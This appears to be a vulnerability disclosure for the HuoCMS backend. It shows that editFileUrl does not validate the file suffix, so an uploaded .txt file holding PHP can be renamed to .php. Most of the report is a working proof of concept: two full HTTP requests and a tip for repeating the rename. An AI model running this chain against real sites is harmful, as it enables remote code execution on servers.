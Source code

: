 Source Code Address:  https://gitee.com/digital-flag/huocms

Tips:  This vulnerability is a backend issue. To reproduce it, you need to set up the environment, log in to the backend, obtain a token, and then use the token for invocation.

app ->controller ->backend -> AttachmentController.php:editFileUrl()

In the `editFileUrl` method, the suffix of `$newPathUrl` used in the `copy` function is not validated against a whitelist. This vulnerability can be exploited to modify the filename, as the suffix is controlled by the `suffix_url` parameter, which is controllable.


![image](https://github.com/user-attachments/assets/5cc40ef7-0d5f-4249-837f-5159475c2cee)

Step 1: Upload a file with a whitelisted suffix that contains malicious content in advance, and record the file ID at the same time.
```
POST /attachment/uploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization:  token
Content-Type: multipart/form-data; boundary=----geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Length: 581
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin.php/Index/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="type"

2
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="attachment_cate_id"

0
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="reduce_img"


------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

<?php
echo "hello word!"
?>
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9--
```
![image](https://github.com/user-attachments/assets/3e13baf4-588c-4f76-ac86-448feb48d7d9)

Based on the content, the ID is determined to be 67.


Step 2: Construct a request according to `editFileUrl` to rename the file with ID 67. The `copy` function in the vulnerable `editFileUrl` is invoked to rename the file associated with this ID to an illegal suffix.

```
POST /attachment/editFileUrl HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: token
Content-Length: 83
Origin: http://127.0.0.1
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=67&name=test&prefix_url=&suffix_url=file/20250416/test.php&description=123123123
```
![image](https://github.com/user-attachments/assets/bd0b55f0-eadc-45d7-bc5c-3f2a98065d1c)

Note: To modify it again, you need to change the filename of `suffix_url` to bypass the `copy` function triggered by `$oldPathUrl != $newPathUrl` inside `editFileUrl`.
